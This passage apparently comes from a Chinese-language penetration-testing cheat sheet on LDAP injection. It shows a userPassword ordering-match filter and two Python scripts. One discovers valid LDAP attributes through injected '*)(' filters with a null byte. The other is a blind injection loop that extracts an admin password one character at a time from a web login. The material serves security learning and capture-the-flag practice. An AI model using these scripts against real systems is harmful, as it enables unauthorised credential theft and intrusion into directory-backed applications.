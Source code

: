 > octetStringOrderingMatch (OID 2.5.13.18): 一种排序匹配规则，将对两个八位字节字符串值执行按位比较（大端序），直到找到差异。在一个值中找到一个零位而在另一个值中找到一个一位的第一个情况将被视为零位的值小于一位的值。

```bash
userPassword:2.5.13.18:=\xx (\xx 是一个字节)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx
```

## 脚本

### 发现有效 LDAP 字段

```python
#!/usr/bin/python3
import requests
import string

fields = []
url = 'https://URL.com/'
f = open('dic', 'r')
world = f.read().split('\n')
f.close()

for i in world:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'}) # 类似于 (&(login=*)(ITER_VAL=*))\x00)(password=bla))
    if 'TRUE CONDITION' in r.text:
        fields.append(str(i))

print(fields)
```

### 特殊盲注 LDAP 注入

```python
#!/usr/bin/python3
import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] 查找第 " + str(i) + " 个字符")
    for char in alphabet:
        r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] 标志: " + flag)
            break
```

由 [@noraj](https://github.com/noraj) 开发的利用脚本
